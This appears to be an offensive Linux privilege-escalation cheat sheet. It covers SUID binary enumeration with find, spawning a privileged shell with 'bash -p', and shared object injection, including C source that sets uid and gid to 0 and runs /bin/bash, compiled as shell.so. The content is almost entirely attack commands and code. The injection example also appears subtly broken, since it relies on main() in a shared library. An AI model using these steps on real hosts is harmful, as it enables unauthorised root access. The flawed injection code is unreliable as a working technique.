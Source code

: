 # SUID
---------

Get SUID binaries:
```bash
find / -perm -u=s -type f 2>/dev/null

find / -type f -perm -04000 -ls 2>/dev/null
```

```bash
./bash -p # -p is priviledged mode
```


### Shared Object Injection
Use strace on obscure binaries to find missing files.
```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

If we have enough permissions to create missing files, create the file:
```C

#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(){
	setuid(0);
	setgid(0);
	system("/bin/bash");
	return 0;
}
```

```bash
gcc -fPIC -shared -o shell.so shell.c
```

